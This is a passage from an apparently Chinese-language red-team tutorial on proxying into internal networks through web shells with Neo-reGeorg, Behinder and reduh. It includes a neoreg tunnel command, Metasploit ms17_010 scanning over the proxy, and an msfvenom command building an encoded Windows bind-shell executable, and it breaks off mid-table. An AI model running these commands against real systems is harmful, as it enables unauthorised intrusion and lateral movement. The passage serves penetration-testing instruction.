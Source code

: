 ![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbVuG1sR2NSPHYd9OalhmGF1CBBmoFIuQyWSuCFRzUm1qm5IByfLicKSg/640?wx_fmt=jpeg)

#### Neo-reGeorg (加密)

```
python neoreg.py -k test@123 -l 0.0.0.0 -p 10081 -u http://192.168.144.211/neo-tunnel.aspx
```

使用 Neo-reGeorg 后，数据包已被加密传输。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbkpMECK4FficYoQPKTbCHGobWCqyPtWBkJhHsKBaOZILXeg2zuIRkFFA/640?wx_fmt=jpeg)

### 冰蝎 (开 socks5)

冰蝎的数据包传输是加密的，本身也具备 socks 代理功能，但传输过程中存在丢包情况。这里同样是利用 metasploit 探测 ms17_010 漏洞，结果显示不存在。当不设置代理探测时，实际漏洞是存在的。

虽然冰蝎的这种代理扫描方式不如 reGeorg 准确，但小线程的端口探测等是可行的，如 `auxiliary/scanner/portscan/tcp`。准确度更多是因某种探测或其他方式的数据包在传输过程中的多少而决定。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbFprm1HNOCgq6vkPQicUzCGOImLHQ0I5kccQ1URaRKWTTqwd9GH1Zqfg/640?wx_fmt=jpeg)

### reduh (单端口转发)

当目标服务器中间件等服务版本较低，reGeorg 或冰蝎马等无法正常解析，就需要换用其它的 http 代理脚本。这是某实战中遇到的环境：

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0Wbib6JVxnkC1KE8JrUpugUvFLiaZQBaKX8tY0Q2v3w9I2Be0kvOZhuxsIA/640?wx_fmt=jpeg)

这里以 reduh 为例，虽然只能对指定的端口进行转发 (不适用图形化连接操作)，但可以先利用 msfvenom 生成正向的 shell payload，再结合 reduh 单端口转发，上线 metasploit，最后利用 socks4a 模块开代理。

下面把具体的流程走一遍：

| 

 | 

```
sudo msfvenom --platform windows -p windows/shell_bind_tcp lport=53 -e x86/shikata_ga_nai -i 5 -f exe -o x86shell.exe
```

 |

| 

 | 

```
--platform       <platform>       指定payload的目标平台
```

 |
| 

